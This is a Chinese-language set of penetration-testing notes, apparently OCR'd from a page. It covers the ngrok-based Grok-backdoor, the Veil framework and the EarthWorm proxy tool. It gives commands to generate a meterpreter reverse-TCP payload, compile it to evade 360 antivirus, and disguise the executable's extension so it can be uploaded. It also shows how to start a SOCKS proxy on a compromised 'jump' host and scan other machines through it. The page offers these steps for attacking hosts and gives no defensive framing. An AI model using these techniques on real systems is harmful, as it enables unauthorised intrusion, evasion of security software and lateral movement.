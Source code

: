      

  2. ##### ngrok-backdoor

     ```shell
     Grok-backdoor是一个简单的基于python的后门，它使用Ngrok隧道进行通信。Ngrok后门可以使用Pyinstaller生成windows，linux和mac二进制文件.
     虽然免杀，但如果开win防火墙会提示，生成后门时会询问是否捆绑ngrok，选择no时，在被攻击机执行时需联网下载ngrok，运行后，telnet连接即可. 
     github https://github.com/deepzec/Grok-backdoor
     ```

     

  3. ##### veil([Veil – Framework](https://www.veil-framework.com/) )

     这里，安装问题有点多，我用kali-2018-32安装成功，先安装下列依赖，后按照官方即可。 

     ```shell
     apt-get install libncurses5*
     apt-get install libavutil55*
     apt-get install gcc-mingw-w64*
     apt-get install wine32  
     ```

     生成shell 

     ```shell
     ./Veil.py
     use 1
     use c/meterpreter/rev_tcp
     ```

     在win gcc -o v.exe v.c -lws2_32 用mingw下gcc编译bypass 360

     生成的 exe 文件 把后缀改为 txt 或未关联任何打开程序的扩展名如 fii.64 上传后 win 下可以作为执行文件执行

     msfconsole -r veil.rc (其中veil.rc是之前生成的，bypass)

     python -m SimpleHTTPServer 80虚拟机里开启，在外访问虚拟机ip即可下载虚拟机文件

  4. ##### ew

     tools: http://rootkiter.com/EarthWorm 

     新版tools： http://rootkiter.com/Termite/ 

     正向： 

     ```shell
     被攻击机(跳板)：
             temp目录下
             unzip ew.zip
             file /sbin/init (查看linux位数)
             chmod 755 ew_for_Linux
             ./ew_for_Linux -s ssocksd -l 9999 (侦听0.0.0.0:9999)
             netstat -pantu|grep 9999 (查看是否侦听成功)
     攻击机：
             proxychain设置socks5 为跳板ip port
             proxychain nmap即可以用跳板代理扫描其他主机
     ```
